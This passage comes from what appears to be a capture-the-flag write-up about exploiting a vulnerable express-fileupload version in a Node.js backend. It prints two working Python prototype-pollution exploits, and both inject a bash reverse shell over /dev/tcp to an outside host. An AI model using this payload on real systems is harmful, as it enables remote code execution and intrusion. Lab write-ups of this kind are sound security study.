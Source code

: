 Perhaps there is a file upload we can take advantage of? Looking at the pages inside the webapp, it's clear that there is no uploading implemented - there is a just an index page. If we look around, we can find this:

{% highlight shell %}
www-data@chronos:/opt/chronos-v2/backend$ cat package-lock.json
cat package-lock.json
# trimmed for brevity
    "node_modules/express-fileupload": {
      "version": "1.1.7-alpha.3",
      "resolved": "https://registry.npmjs.org/express-fileupload/-/express-fileupload-1.1.7-alpha.3.tgz",
      "integrity": "sha512-2YRJQqjgfFcYiMr8inico+UQ0UsxuOUyO9wkWkx+vjsEcUI7c1ae38Nv5NKdGjHqL5+J01P6StT9mjZTI7Qzjg==",
      "deprecated": "Please upgrade express-fileupload to version 1.1.10+ due to a security vulnerability with the parseNested option",
      "dependencies": {
        "busboy": "^0.3.1"
      },
      "engines": {
        "node": ">=8.0.0"
      }
    },
{% endhighlight %}

What's that about? Google is our friend, and leads us to [this](https://blog.p6.is/Real-World-JS-1/) blog post about the vulnerability and some code on how to get a shell. This is the supplied code:

{% highlight python %}
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/p6.is/8888 0>&1"'

# pollute
requests.post('http://p6.is:7777', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

# execute command
requests.get('http://p6.is:7777')
{% endhighlight %}

We only need to change a few bits and we can use it. Here's my version:

{% highlight python %}
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/192.168.1.210/1237 0>&1"'

# pollute
requests.post('http://localhost:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

# execute command
requests.get('http://localhost:8080')
{% endhighlight %}
